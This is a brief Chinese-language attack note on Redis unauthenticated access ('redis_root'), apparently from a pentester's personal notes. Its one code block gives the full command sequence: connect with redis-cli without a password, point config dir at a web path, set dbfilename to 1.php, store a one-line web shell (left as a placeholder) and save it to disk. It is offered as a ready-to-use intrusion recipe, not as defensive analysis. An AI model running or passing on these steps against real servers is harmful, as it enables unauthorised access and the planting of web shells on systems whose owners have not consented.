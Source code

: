 # redis_root

---

未授权

```
redis-cli -h xxx    //不需要密码，连接成功，即存在未授权漏洞

info   //resis信息
config set dir "路径"       //设置绝对路径
config set dbfilename 1.php //设置文件名
set xxx "一句话"             //设置文件内容
save
```

